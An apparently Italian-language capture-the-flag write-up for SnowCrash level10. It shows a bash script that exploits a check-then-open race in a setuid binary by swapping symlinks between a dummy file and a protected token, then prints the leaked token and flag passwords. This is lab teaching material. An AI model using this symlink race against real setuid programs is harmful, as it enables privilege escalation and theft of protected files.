 # Level10
### 1 passaggio:
Eseguendo il comando `ls -l`:
```bash
total 16
-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
-rw-------  1 flag10 flag10     26 Mar  5  2016 token
```
Con il comando `strings level10` possiamo capire che si tratta di un
programma per inviare il contenuto dei file tramite la porta `6969` e provando
ad eseguire il programma si può capire che accetta 2 argomenti per funzionare
dove il primo argomento deve essere il nome del file da inviare e il secondo
l'ip dove collegarsi.

### 2 passaggio:
Con il comando `ltrace ./level10 token 127.0.0.1` abbiamo il seguente output:
```bash
__libc_start_main(0x80486d4, 3, 0xbffff7d4, 0x8048970, 0x80489e0 <unfinished ...>
access("token", 4)                                                        = -1
printf("You don't have access to %s\n", "token"You don't have access to token
)                          = 31
+++ exited (status 31) +++
```
Dunque il programma utilizza la funzione `access` per controllare i permessi sul file
da aprire, permessi che ovviamente non abbiamo sul file `token`.
Leggendo il `man` di `access` troviamo il seguente paragrafo:
>   Warning: Using these calls to check if a user is authorized to,
>   for example, open a file before actually doing so using open(2)
>   creates a security hole, because the user might exploit the short
>   time interval between checking and opening the file to manipulate
>   it.  For this reason, the use of this system call should be
>   avoided.  (In the example just described, a safer alternative
>   would be to temporarily switch the process's effective user ID to
>   the real ID and then call open(2).)

[Link man access](https://man7.org/linux/man-pages/man2/access.2.html)

### 3 passaggio:
Basta creare un semplice script con 3 passaggi fondamentali:
1. Chiamare `nc` in ascolto sulla porta 6969 e lasciarlo in background
2. Chiamare l'eseguibile con il file da inviare
3. Cambiare velocemente il file che invieremo tra un file di nostra proprietà e il file che dobbiamo effettivamente inviare
```bash
 1  #!/bin/bash
 2  echo "Spazzatura" > /tmp/flag
 3  for i in {0..50}
 4  do
 5    nc -l 6969
 6  done &
 7  for i in {0..50}
 8  do
 9    ~/level10 /tmp/l_flag 127.0.0.1 &> /dev/null
10  done &
11  for i in {0..50}
12  do
13    ln -fs /tmp/flag /tmp/l_flag
14    ln -fs ~/token /tmp/l_flag
15  done
```
Così da sfruttare una `Race Condition Vulnerability` e avere il seguente output:
```bash
.*( )*.
Spazzatura
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
Spazzatura
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
Spazzatura
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
Spazzatura
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
Spazzatura
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
Spazzatura
.*( )*.
Spazzatura
.*( )*.
woupa2yuojeeaaed06riuj63c
```

### 4 passaggio:
```bash
level10@SnowCrash:~$ su flag10
Password: woupa2yuojeeaaed06riuj63c
Don't forget to launch getflag !
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```
